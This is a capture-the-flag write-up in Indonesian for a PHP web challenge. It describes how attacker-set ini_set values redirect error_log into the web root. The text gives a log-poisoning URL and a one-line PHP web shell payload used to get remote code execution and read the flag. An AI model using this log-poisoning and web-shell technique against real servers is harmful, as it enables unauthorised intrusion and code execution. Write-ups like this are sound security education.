 # love card

> Do you love my notes?

![chall](images/chall.jpg)

Download [source code](files/love-card-participant.zip)

## Solve

Diberikan sebuah website dan attachment (source code) dari website tersebut, berikut adalah tampilan website

![solve1](images/solve1.jpg)

Berikut adalah isi file dari attachment

![solve2](images/solve2.jpg)

Untuk melakukan static analysis, kita bisa membuka source code pada index.php, berikut saya lampirkan beberapa code yang cukup menarik

![solve3](images/solve3.jpg)

Pada potongan kode pertama, terdapat sebuah parameter `$_GET` yang sepertinya dilapisi oleh blacklist, value yang difilter mirip dengan beberapa payload yang digunakan untuk XSS (Cross-site Scripting), namun karena saya rasa ini adalah rabbithole jadi saya abaikan.

Kemudian terdapat keterangan `REMOTE_ADDR = ‘127.0.0.1’` yang artinya apabila kita mengakses dari localhost kita bisa mengakses system dalam server dengan menambahkan parameter `dev` dan `cmd`, namun menurut saya ini tidak mungkin beberapa forwarded pada header sudah dicoba tapi belum juga berhasil, jadi saya rasa ini adalah rabbithole yang kedua

Kemudian terdapat function `ini_set()`, yang ini memang agak sussy jadi saya mencoba mencari dokumentasi dari [ini_set](https://www.php.net/manual/en/function.ini-set.php)

Setelah saya pahami, intinya ini_set dapat melakukan manipulasi terhadap konfigurasi server dan kita bisa memanfaatkan function ini, kita dapat mencoba nya dengan melakukan list dari [php.ini directive](https://www.php.net/manual/en/ini.list.php)

http://23.94.73.203:9137/?display_errors=1

![solve4](images/solve4.jpg)

Lalu di potongan kode kedua sama halnya terdapat parameter yang dimana apabila kita memasukan value terhadap parameter maka value tersebut reflect pada tampilan index website

![solve5](images/solve5.jpg)

Dengan memanfaatkan `ini_set()` function, kita bisa melakukan log poisoning dengan `error_log` agar bisa mendapatkan RCE (Remote Code Execution)
berikut adalah payload nya

`http://23.94.73.203:9137/?error_log=/var/www/html/pale.php&name=pale</a>`

Kemudian kita akses `http://23.94.73.203:9137/pale.php`

![solve6](images/solve6.jpg)

Error log yang dihasilkan oleh website akan terspawn pada directory yang kita tentukan, selanjutnya kita bisa menginputkan payload untuk melakukan RCE

`<?php system($_GET['a']);?>`

![solve7](images/solve7.jpg)

Selanjutnya kita hanya perlu mengambil flag yang ada pada folder root

![flag](images/flag.jpg)

```
flag{this_is_not_about_love_this_is_about_RCE<3}
```